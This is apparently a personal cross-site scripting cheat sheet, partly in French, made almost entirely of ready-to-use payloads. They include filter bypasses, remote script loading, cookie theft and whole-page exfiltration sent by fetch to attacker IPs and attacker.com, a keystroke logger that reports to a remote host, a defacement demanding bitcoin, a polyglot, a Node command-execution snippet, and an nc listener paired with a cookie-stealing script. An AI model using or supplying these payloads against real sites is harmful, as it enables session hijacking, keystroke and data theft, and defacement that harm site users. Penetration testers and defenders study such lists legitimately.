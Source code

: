 
- https://github.com/payloadbox/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

```html
<script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in X')</script>
```



Load remote script

```html
<script src="http://192.168.45.128/xss.js"></script>
```

Bypasser le mot script filter

```html
<sscriptcript>alert('berty');</sscriptcript>
```

Send Cookie details to us: Session-Hijacking

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);
```

```js
fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));

<script>
fetch('http://target.com/endpoint.php')
.then(response => response.text())
.then(data => fetch('http://attacker.com/?data' + btoa(data)))
</script>
```


Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Recuperer le navigateur client

```js
fetch("http://192.168.75.137/?nav="+navigator.userAgent);
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('ErrorDipeua') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Dipeua')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```

# DOM

```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">

"><img src=x onerror=prompt(document.domain);>

#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">

xss">< ! --><svg/onload=alert(document.domain)>

<noscript><p title="</noscript><img src=x onerro=alert(1)>">
```

```html
nc -nlvp 9001


</textarea><script>fetch('http://10.11.86.29:9001?cookie=' + btoa(document.cookie) );</script>
```

